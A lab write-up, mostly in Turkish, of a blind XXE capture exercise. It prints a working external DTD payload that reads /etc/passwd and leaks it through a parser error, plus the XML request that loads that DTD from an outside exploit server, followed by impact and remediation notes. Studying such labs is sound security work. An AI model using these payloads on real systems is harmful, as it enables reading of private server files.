




# Exploiting blind XXE to retrieve data via error messages

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda stok kontrolü için gönderilen XML verisi sunucu tarafında external entity tanımlarını işliyordu, fakat dosya içeriği doğrudan response içinde dönmüyordu. Bu nedenle blind XXE senaryosunda external DTD kullandım. Exploit server üzerinde hazırladığım DTD, `/etc/passwd` dosyasını okuyup bu değeri bilerek hatalı bir `file://` path içine yerleştirdi. XML parser hata mesajı döndürdüğünde dosya içeriği hata mesajının içinde sızdı.

## 3. Kullanılan Payload

Exploit server body:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % baris "<!ENTITY &#x25; error SYSTEM 'file:///hehehe/%file;'>">
%baris;
%error;
```

Uygulamaya gönderilen XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY % external SYSTEM "https://exploit-0a5e006e04d45ed583c6406101550060.exploit-server.net/exploit">
  %external;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

## 4. Exploitation Steps

1. İlk olarak XML içine doğrudan `/etc/passwd` dosyasını okuyan bir external entity eklemeyi denedim. Ancak uygulama bu isteğe parse error döndürdü ve veri doğrudan response içinde görüntülenmedi.



2. Blind XXE davranışı nedeniyle exploit server üzerinde harici bir DTD hazırladım. Bu DTD içinde önce `%file` entity'si ile `/etc/passwd` dosyasını hedefledim, ardından bu değeri hatalı bir dosya yoluna ekleyen `%error` entity'sini oluşturdum.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % baris "<!ENTITY &#x25; error SYSTEM 'file:///hehehe/%file;'>">
%baris;
%error;
```



3. Stok kontrol isteğinde XML verisinin başına exploit server üzerindeki DTD'yi çağıran bir `DOCTYPE` bloğu ekledim.

```xml
<!DOCTYPE stockCheck [
  <!ENTITY % external SYSTEM "https://exploit-0a5e006e04d45ed583c6406101550060.exploit-server.net/exploit">
  %external;
]>
```

4. İsteği gönderdiğimde sunucu, exploit server üzerindeki external DTD'yi çağırdı. DTD içindeki `%error` entity'si geçersiz bir dosya yoluna `/etc/passwd` içeriğini eklediği için XML parser hata üretti.



5. Hata mesajında `/etc/passwd` dosyasına ait satırlar göründü. Böylece blind XXE zafiyeti kullanılarak veri hata mesajı üzerinden sızdırıldı ve lab başarıyla çözüldü.



## 5. Impact

Blind XXE zafiyeti, response içinde doğrudan veri dönmese bile saldırgana hassas dosya içeriklerini hata mesajları veya out-of-band tekniklerle sızdırma imkanı verebilir. Bu yöntemle sistem dosyaları, uygulama konfigürasyonları, credential bilgileri veya internal servislerden dönen veriler açığa çıkabilir.

## 6. Remediation

XML parser üzerinde external entity, parameter entity ve `DOCTYPE` desteği devre dışı bırakılmalıdır. Dış DTD yükleme kapatılmalı, XML parser secure processing modunda çalıştırılmalı ve detaylı parser hata mesajları kullanıcıya gösterilmemelidir. Production ortamında teknik hata detayları yalnızca güvenli sunucu loglarında tutulmalı, kullanıcıya genel hata mesajları döndürülmelidir.
